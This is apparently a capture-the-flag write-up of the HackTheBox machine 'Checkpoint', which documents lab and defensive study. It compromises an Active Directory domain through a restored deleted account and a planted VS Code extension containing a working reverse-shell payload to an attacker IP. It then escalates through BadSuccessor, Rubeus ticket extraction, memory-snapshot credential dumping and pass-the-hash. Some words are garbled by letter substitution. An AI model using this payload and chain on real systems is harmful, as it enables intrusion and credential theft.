



# Checkpoint HackTheBox Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Checkpoint |
| **OS** | Windows |
| **Difficulty** | Medium |
| **Domain** | checkpoint.htb |
| **Domain Controller** | DC01 (dc01.checkpoint.htb) |
| **Given Credentials** | alex.turner:Checkpoint2024! |

---

## Enumeration

### Nmap

```bash
sudo nmap --privileged -Pn -sCV -v -n -p- 10.129.47.253
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-21 08:20:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb)
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
49664-49719/tcp open  msrpc   Microsoft Windows RPC (various)

Host script results:
clock-skew: 6h59m06s
smb2-security-mode: Message signing enabled and required
```

Standard Windows domain controller setup. Port 5985 (WinRM) is open which is useful later. The most notable thing from the scan is the **~7 hour clock skew** the DC's clock is way ahead of ours. This will become a persistent headache throughout the box since Kerberos is extremely strict about clock differences (max 5 minutes alloid).

The box comes with provided credentials from the author: `alex.turner:Checkpoint2024!`. So i're jumping straight into authenticated enumeration.

### SMB Enumeration

```bash
nxc smb $target -u alex.turner -p 'Checkpoint2024!' --shares
```

```
SMB  10.129.48.239  445  DC01  [+] checkpoint.htb\alex.turner:Checkpoint2024!
SMB  10.129.48.239  445  DC01  Share           Permissions     Remark
SMB  10.129.48.239  445  DC01  ADMIN$                          Remote Admin
SMB  10.129.48.239  445  DC01  C$                              Default share
SMB  10.129.48.239  445  DC01  DevDrop         READ            VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB  10.129.48.239  445  DC01  IPC$            READ            Remote IPC
SMB  10.129.48.239  445  DC01  NETLOGON        READ            Logon server share
SMB  10.129.48.239  445  DC01  SYSVOL          READ            Logon server share
SMB  10.129.48.239  445  DC01  VMBackups
```

Two custom shares immediately stand out: `DevDrop` and `VMBackups`. The description on `DevDrop` is very specific it's a VS Code extensions share, and the comment explicitly mentions VS Code engine version `1.118.0`. That's unusual. It means someone on the network is auto-loading `.vsix` extension packages from this share.

`VMBackups` shows no permissions for alex.turner at this point, so i can't access it yet.

i also did a RID brute to map out all domain users:

```bash
nxc smb $target -u alex.turner -p 'Checkpoint2024!' --rid
```

```
500: CHECKPOINT\Administrator
502: CHECKPOINT\krbtgt
1103: CHECKPOINT\ryan.brooks
1104: CHECKPOINT\svc_deploy
1111: CHECKPOINT\james.harper
1112: CHECKPOINT\sarah.mitchell
...
1120: CHECKPOINT\megan.perry
```

Key accounts to note: `ryan.brooks` and `svc_deploy`. i'll come back to both of these.

### LDAP Enumeration

i ran a full LDAP dump using `ldeep` to get more details on the objects:

```bash
ldeep ldap -u "alex.turner" -p 'Checkpoint2024!' -d "checkpoint.htb" -s ldap://"$target" all "ldeep_domain"
```

Filtering for the interesting accounts:

```bash
grep -iEr 'ryan|svc_deploy|turner'
```

A few things popped out from the output:

- `svc_deploy` lives in `OU=ServiceAccounts`
- `ryan.brooks` lives in `OU=Employees`  

Also notably, in the machines dump i found:
```
"msDS-ManagedAccountPrecededByLink": "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb"
```




This indicates there are dMSA (delegated Managed Service Accounts) in the environment already linked to `svc_deploy`.




To understand why ryan.brooks specifically matters here, BloodHound graph shows ryan.brooks has GenericWrite on svc_deploy. GenericWrite allows writing to any non-protected attribute on the target object and that includes msDS-SupersededManagedAccountLink, which is exactly the attribute BadSuccessor needs to write in order to link a new dMSA to its predecessor account. This means once i have a session as ryan.brooks, i can directly nominate a dMSA as svc_deploy's successor without needing svc_deploy's password or any other elevated privilege.

### AD Object Permissions

```bash
bloodyad -u alex.turner -p 'Checkpoint2024!' -d checkpoint.htb --host dc01.checkpoint.htb get writable
```

```
distinguishedName: CN=Deleted Objects,DC=checkpoint,DC=htb
DACL: WRITE

distinguishedName: OU=Employees,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Alex Turner,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE
```

`alex.turner` has `WRITE` permission on `CN=Mark Davies` including on the Deleted Objects container. Mark Davies is a deleted account, and i have write access to it. In Active Directory, if you have sufficient rights on a deleted object, you can **restore it**. That's exactly what i did.

---

## Initial Foothold

### Restoring the Deleted Account (mark.davies)

The `bloodyad` tool has a built-in `set restore` command for this:

```bash
bloodyad --host DC01.checkpoint.htb -d checkpoint.htb \
  -u 'alex.turner' -p 'Checkpoint2024!' \
  set restore 'mark.davies'
```

Account restored. Now the question is: what's mark.davies' password? i tried credential reuse `Checkpoint2024!` (same password as alex.turner) and it worked:

```bash
nxc smb $target -u 'mark.davies' -p 'Checkpoint2024!' --shares
```

```
SMB  DC01  [+] checkpoint.htb\mark.davies:Checkpoint2024!
SMB  DC01  Share           Permissions     Remark
SMB  DC01  DevDrop         READ,WRITE      VS Code extensions share...
SMB  DC01  VMBackups
```

Two important differences compared to alex.turner:
1. `mark.davies` has **READ,WRITE** on `DevDrop` (alex only had READ)
2. Still no access to `VMBackups` that's for later

### Malicious VSCode Extension (.vsix)

Here's where things get interesting. The `DevDrop` share description says it's for "approved .vsix packages". Someone (or something likely an automated process running as `ryan.brooks`) is installing VS Code extensions from this share. If i can write a malicious `.vsix` there, i can get code execution on whoever loads it.

A `.vsix` file is just a ZIP archive containing extension code and a manifest. i crafted a simple reverse shell extension:

**extension.js:**
```javascript
const net = require("net");
const { exec } = require("child_process");

function activate(context) {
  const client = new net.Socket();
  client.connect(4444, "10.10.15.199", () => {
    const sh = exec("cmd.exe");
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    client.pipe(sh.stdin);
  });
}

exports.activate = activate;
exports.deactivate = () => {};
```

**package.json:**
```json
{
  "name": "bald",
  "displayName": "teddy",
  "version": "12",
  "publisher": "microsoft",
  "engines": {
    "vscode": "^1.118.0"
  },
  "activationEvents": ["*"],
  "main": "./extension.js"
}
```

The `engines.vscode` value matches what was listed in the share description (`1.118.0`). The `activationEvents: ["*"]` means the extension runs immediately on load, no user interaction required.

Package it up:

```bash
zip -r teddy.vsix extension/
```

Upload to the share using mark.davies' credentials:

```bash
smbclient //$target/DevDrop -U 'mark.davies'
Password for [WORKGROUP\mark.davies]: Checkpoint2024!
smb: \> put teddy.vsix
```

Set up a listener and wait:

```bash
nc -lvnp 4444
```

After a short wait, the extension gets loaded and the callback hits our listener:

```
connect to [10.10.15.199] from (UNKNOWN) [10.129.47.253]
Microsoft Windows [Version 10.0.26100]

C:\Users\ryan.brooks\Desktop> type user.txt
7d72496db81110ded0f9REDACTED63
```

Shell as `ryan.brooks`. User flag captured.

---

## Privilege Escalation

### BadSuccessor Research

Once on the box as `ryan.brooks`, i started looking for a path to escalate. While searching for attack vectors on Windows Server 2025 environments with dMSAs (delegated Managed Service Accounts), i found the [BadSuccessor](https://github.com/Akamai/BADSUCCESSOR) research from Akamai.

The core idea: if a user has `CreateChild` rights on an OU that contains dMSA objects, they can create a new dMSA and link it to an existing service account effectively inheriting that service account's privileges without knowing its password.

i confirmed the environment is vulnerable:

```bash
nxc ldap $target -u alex.turner -p 'Checkpoint2024!' -M badsuccessor
```

```
BADSUCCE... [+] Found domain controller with operating system Windows Server 2025: DC01.checkpoint.htb
BADSUCCE... [+] Found 2 results
BADSUCCE... alex.turner (S-1-5-21-...), OU=Employees,DC=checkpoint,DC=htb
BADSUCCE... ryan.brooks (S-1-5-21-...), OU=DMSAHolder,DC=checkpoint,DC=htb
```

`ryan.brooks` is in `OU=DMSAHolder` the same OU where dMSA objects are created. This means ryan has the `CreateChild` permission in that OU, which is exactly what BadSuccessor needs.

### Getting Ryan's TGT via Rubeus

To use bloodyad with Kerberos auth, i need a ticket for `ryan.brooks`. Since i have a shell as ryan but no password, i used `Rubeus` to extract a delegation TGT from the current session.

First, i uploaded Rubeus to the DevDrop share and accessed it from the target:

```
smb: \> put Rubeus.exe
```

From the shell as ryan.brooks:

```
C:\Windows\Temp> .\Rubeus.exe tgtdeleg /nowrap
```

```
[*] Action: Request Fake Delegation TGT (current user)
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Extracted the service ticket session key from the ticket cache: n21rMA00cSIoD/JSiP91ai7XN3uC3t9PMOqmp+Nae3E=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxh...
```

Back on our attacker machine, i decoded and converted the ticket:

```bash
nano ticket.kirbi  # paste the base64 content
base64 -d ticket.kirbi > ticket_raw.kirbi
impacket-ticketConverter ticket_raw.kirbi ryan.ccache
export KRB5CCNAME=$(pwd)/ryan.ccache
```

### The Clock Skew Fight

This is where the box becomes genuinely annoying. The DC clock is ~7 hours ahead of our machine. Kerberos has a 5-minute tolerance anything beyond that and the ticket gets rejected with `KRB_AP_ERR_SKEW`.

Every time i needed to use Kerberos tools, i had to sync the clock:

```bash
sudo timedatectl set-ntp off
sudo ntpdate checkpoint.htb
```

And even then, sometimes the sync would drift slightly betien the sync and the actual operation, requiring multiple attempts. This wasn't a one-time fix i had to repeat this dance throughout the entire privilege escalation phase every time a ticket expired or a tool complained about clock skew.

Verifying the ticket works with nxc:

```bash
nxc smb dc01.checkpoint.htb --use-kcache --shares
```

```
SMB  DC01  [+] CHECKPOINT.HTB\ryan.brooks from ccache
```

### Creating the dMSA via BadSuccessor

With ryan's ticket loaded, i ran the BadSuccessor attack. The key is linking a new dMSA to `svc_deploy` which means the new dMSA will inherit svc_deploy's permissions:

```bash
bloodyad -k ccache=./ryan.ccache -u ryan.brooks \
  --dc-ip $target --host DC01.checkpoint.htb -d checkpoint.htb \
  add badsuccessor \
  -t "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb" \
  --ou "OU=DMSAHolder,DC=checkpoint,DC=htb" \
  pentest_dmsa
```

**Important caveat:** The `msDS-SupersededManagedAccountLink` attribute on `svc_deploy` is **single-value** you can only link one dMSA to it. If you try to create a second one, you'll get:

```
LDAPModifyException: attributeOrValueExists for CN=svc_deploy ...
(ERROR_DS_SINGLE_VALUE_CONSTRAINT) Multiple values ire specified for an attribute that can have only one value.
```

This is a shared HTB instance issue if another player or you may already created a dMSA linked to `svc_deploy`, you'd need to reset the box. In my case, i'd already created one named `AD_dmsa` in a previous attempt, so `pentest_dmsa` was listed in the writable objects but wasn't actually usable as a *new* link.

After the BadSuccessor operation, bloodyad automatically generates a `.ccache` file for the new dMSA account. i set that to my env:

```bash
export KRB5CCNAME=<path_to_dmsa_ccache>
```

Verifying access with the dMSA ticket:

```bash
# After clock sync as usual
nxc smb dc01.checkpoint.htb --use-kcache --shares
```

```
SMB  DC01  [+] checkpoint.htb\AD_dmsa$ from ccache
SMB  DC01  Share           Permissions     Remark
SMB  DC01  ADMIN$                          Remote Admin
SMB  DC01  C$                              Default share
SMB  DC01  DevDrop                         VS Code extensions share...
SMB  DC01  IPC$            READ            Remote IPC
SMB  DC01  NETLOGON        READ            Logon server share
SMB  DC01  SYSVOL          READ            Logon server share
SMB  DC01  VMBackups       READ
```

`VMBackups` now has **READ** access. That's new.

### Accessing the VMBackups Share

With the dMSA ticket, i connected to the share:

```bash
# Sync clock first
sudo timedatectl set-ntp off
sudo ntpdate checkpoint.htb

impacket-smbclient -k -no-pass dc01.checkpoint.htb
```

```
# use VMBackups
# ls
NightlyBackup_2024-11-01/

# cd NightlyBackup_2024-11-01
# cd memory forensics
# ls
Windows Server 2019-000001.vmdk       (106 MB)
Windows Server 2019-Snapshot1.vmem    (2 GB)
Windows Server 2019-Snapshot1.vmsn    (138 MB)
Windows Server 2019.nvram             (264 KB)
Windows Server 2019.scoreboard        (7 KB)
Windows Server 2019.vmdk              (10 GB)
Windows Server 2019.vmsd             (502 B)
Windows Server 2019.vmx              (2.7 KB)
Windows Server 2019.vmxf             (274 B)

# get "Windows Server 2019-Snapshot1.vmem"
```

The `.vmem` file is a **memory dump** from a VMware snapshot it contains a complete snapshot of the VM's RAM at the moment the snapshot was taken. 2GB is a lot to download but it's the one i want.

### Memory Forensics with vmkatz

`vmkatz` is a tool that can extract credentials directly from VMware memory snapshots without needing the full VM disk image. It targets the LSASS process in the memory dump and extracts cached credentials the same way Mimikatz would on a live system:

```bash
./vmkatz ../Windows\ Server\ 2019-Snapshot1.vmem
```

```
[*] vmkatz v1.4.1
[*] System discovery: 15.376576974s
[*] Process enumeration: 4.285877308s
[*] Providers: MSV(ok) WDigest(ok) Kerberos(ok) TsPkg(empty) DPAPI(ok)
[*] Credential extraction: 811.693063ms

[+] 2 logon session(s), 2 with credentials:

LUID: 0x14016d
  Session: 2 | LogonType: Unknown
  Username: Administrator
  Domain: WIN-0DG6SJAEUTA
  LogonServer: WIN-0DG6SJAEUTA
  LogonTime: 2026-05-09 14:07:14 UTC
  SID: S-1-5-21-2823729479-30462974-3865623546-500
  [MSV1_0]
    NT Hash : f29e9c014295b9b32139b09a2790be3b
```

got the NT hash for `Administrator` on the machine `WIN-0DG6SJAEUTA`.

### Domain Compromise

```bash
evil-winrm -u Administrator -H f29e9c014295b9b32139b09a2790be3b -i 10.129.47.253
```

```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
checkpoint\administrator
```

The hash worked. Password reuse from the VM backup to the domain admin account.

Navigating to find the root flag:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ../../max.palmer/Desktop
*Evil-WinRM* PS C:\Users\max.palmer\Desktop> type root.txt
071a26799b95REDACTED9b1c712b2f
```

Root flag is in `max.palmer`'s desktop rather than Administrator's an intentional misdirect from the box author that forces you to enumerate properly.

---

## Lessons Learned

**Deleted AD objects are not gone.** If a user has WRITE access to a deleted object (or to the Deleted Objects container), they can restore it. This is a legitimate AD recovery mechanism that can be iaponized. Always check permissions on deleted objects during enumeration most tools skip them by default.

**Read share descriptions carefully.** The DevDrop comment saying "VS Code engine 1.118.0" wasn't flavor text. It was a direct hint that someone was auto-loading extensions matching that version. A write-permission .vsix drop is RCE if an automated process is consuming the share.

**BadSuccessor is a real threat on Server 2025.** The dMSA feature in Windows Server 2025 has a fundamental design flaw: users with `CreateChild` on the right OU can create a dMSA that inherits any service account's credentials, even without knowing the service account's password. If you're running Server 2025, audit who has `CreateChild` on your `OU=ServiceAccounts` and related OUs.

**VM backups are a goldmine.** If an attacker gets access to backup files especially VMware memory snapshots they can extract credentials from LSASS without ever touching the live system. Backup shares should have the tightest possible access controls and ideally should not be on the domain controller itself.

**Clock skew management matters in CTFs.** On this box, the DC clock was ~7 hours off. This isn't unique to CTFs in real environments, time sync issues can break Kerberos auth silently. Always use `timedatectl set-ntp off` before `ntpdate` to force a hard time sync when dealing with large skews, and remember that NTP sync alone may not be enough if the system clock jumps and then drifts back.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service enumeration |
| **nxc (NetExec)** | SMB/LDAP auth + shares + RID brute + BadSuccessor check |
| **ldeep** | Full LDAP enumeration dump |
| **bloodyad** | AD object permission enumeration, restoring deleted objects, BadSuccessor exploitation |
| **smbclient** | SMB share browsing and file upload |
| **Rubeus** | Kerberos TGT delegation (tgtdeleg) from active session |
| **impacket-ticketConverter** | kirbi → ccache conversion |
| **impacket-smbclient** | Kerberos-authenticated SMB access |
| **vmkatz** | Credential extraction from VMware memory snapshots |
| **evil-winrm** | WinRM shell with pass-the-hash |
| **ntpdate** | Clock sync to fix Kerberos KRB_AP_ERR_SKEW |

**References:**
- [Recon Tools](https://www.thehacker.recipes/ad/recon/ldap)
- [BadSuccessor Akamai Research](https://github.com/Akamai/BADSUCCESSOR)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [bloodyAD CheatSheet](https://adminions.ca/books/active-directory-enumeration-and-exploitation)
- [vmkatz](https://github.com/vmkatz)
- [Rubeus](https://github.com/GhostPack/Rubeus)
